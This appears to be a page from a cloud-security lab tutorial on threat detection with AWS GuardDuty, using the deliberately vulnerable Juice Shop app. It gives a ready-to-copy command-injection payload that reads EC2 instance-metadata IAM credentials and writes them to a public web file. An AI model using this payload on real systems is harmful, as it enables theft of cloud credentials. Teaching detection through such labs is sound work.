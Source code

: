 ###

### Run Malicious Code
- Select the Account option on the top right hand corner.
- Select your admin@juice-sh.op email.

<div style="text-align: center;">
  <div style="border: 5px solid #f4a261; padding: 5px; display: inline-block;">
    <img src="Threat Detection with GuardDuty/run malicious code.png" alt="alt text" width="600">
  </div>
</div>

###



### Conduct command injection using the following code:

Option 1: Markdown ready to copy.

<div style="position: relative; margin: 1em 0;">
  <button onclick="navigator.clipboard.writeText(document.getElementById('code-block').innerText)" style="position: absolute; top: 8px; right: 8px; padding: 4px 10px; background-color: #f4a261; border: none; border-radius: 4px; cursor: pointer;">📋 Copy</button>
  <pre style="overflow-x: auto; background: #2d2d2d; color: #f8f8f2; padding: 1em; border-radius: 5px;"><code id="code-block">#{global.process.mainModule.require('child_process').exec('CREDURL=http://169.254.169.254/latest/meta-data/iam/security-credentials/;TOKEN=`curl -X PUT "http://169.254.169.254/latest/api/token" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600"` && CRED=$(curl -H "X-aws-ec2-metadata-token: $TOKEN" -s $CREDURL | echo $CREDURL$(cat) | xargs -n1 curl -H "X-aws-ec2-metadata-token: $TOKEN") && echo $CRED | json_pp >frontend/dist/frontend/assets/public/credentials.json')}
</code></pre>
</div>
